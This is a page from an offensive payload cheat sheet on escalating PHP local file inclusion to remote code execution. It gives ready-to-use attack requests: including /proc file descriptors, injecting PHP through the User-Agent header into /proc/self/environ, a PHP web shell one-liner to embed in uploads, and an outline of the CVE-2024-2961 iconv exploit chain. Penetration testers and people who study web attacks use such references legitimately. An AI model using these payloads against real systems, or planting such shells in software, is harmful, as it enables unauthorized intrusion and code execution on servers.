

repository: swisskyrepo/PayloadsAllTheThings · page: File Inclusion/LFI-to-RCE/index.html · generator: mkdocs

# LFI to RCE

> LFI (Local File Inclusion) is a vulnerability that occurs when a web application includes files from the local file system, often due to insecure handling of user input. If an attacker can control the file path, they can potentially include sensitive or dangerous files such as system files (/etc/passwd), configuration files, or even malicious files that could lead to Remote Code Execution (RCE).

## Summary

- [LFI to RCE via /proc/*/fd](#lfi-to-rce-via-procfd)
- [LFI to RCE via /proc/self/environ](#lfi-to-rce-via-procselfenviron)
- [LFI to RCE via iconv](#lfi-to-rce-via-iconv)
- [LFI to RCE via upload](#lfi-to-rce-via-upload)
- [LFI to RCE via upload (race)](#lfi-to-rce-via-upload-race)
- [LFI to RCE via upload (FindFirstFile)](#lfi-to-rce-via-upload-findfirstfile)
- [LFI to RCE via phpinfo()](#lfi-to-rce-via-phpinfo)
- [LFI to RCE via controlled log file](#lfi-to-rce-via-controlled-log-file)
    - [RCE via SSH](#rce-via-ssh)
    - [RCE via Mail](#rce-via-mail)
    - [RCE via Apache logs](#rce-via-apache-logs)
- [LFI to RCE via PHP sessions](#lfi-to-rce-via-php-sessions)
- [LFI to RCE via PHP PEARCMD](#lfi-to-rce-via-php-pearcmd)
- [LFI to RCE via Credentials Files](#lfi-to-rce-via-credentials-files)

## LFI to RCE via /proc/*/fd

1. Upload a lot of shells (for example : 100)
2. Include `/proc/$PID/fd/$FD` where `$PID` is the PID of the process and `$FD` the filedescriptor. Both of them can be bruteforced.

```ps1
http://example.com/index.php?page=/proc/$PID/fd/$FD
```

## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the `User-Agent` header, it will be reflected inside the `/proc/self/environ` file

```powershell
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## LFI to RCE via iconv

Use the iconv wrapper to trigger an OOB in the glibc (CVE-2024-2961), then use your LFI to read the memory regions from `/proc/self/maps` and to download the glibc binary. Finally you get the RCE by exploiting the `zend_mm_heap` structure to call a `free()` that have been remapped to `system` using `custom_heap._free`.

**Requirements**:

- PHP 7.0.0 (2015) to 8.3.7 (2024)
- GNU C Library (`glibc`) <=  2.39
- Access to `convert.iconv`, `zlib.inflate`, `dechunk` filters

**Exploit**:

- [ambionics/cnext-exploits](https://github.com/ambionics/cnext-exploits/tree/main)

## LFI to RCE via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf
